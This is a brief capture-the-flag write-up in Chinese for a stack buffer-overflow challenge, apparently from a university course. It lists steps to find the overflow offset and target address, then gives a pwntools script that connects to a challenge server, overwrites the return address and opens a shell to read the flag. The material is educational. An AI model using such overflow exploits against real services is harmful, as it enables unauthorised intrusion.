 ![](2.png)

### 步骤

1. 从二进制中，获得溢出变量长度和目标函数地址，i.e.，`0x14`和`0x004011b6`
2. 攻击服务器，获得shell
3. 用`ls`看服务器文件，然后执行`cat flag.txt` 获得flag

**EXP**

```python
from pwn import * # pip install pwntools

# connect to the server, change it to yours
p = remote("detroit.sustech.edu.cn", 49340)
p.recvline()
p.recvline()
p.recvline()
p.recvline() # receive message

# generate payload
payload = b"a" * 0x14 + p64(0x4011b6)

# send payload
p.sendline(payload)

# get shell
p.interactive()
```
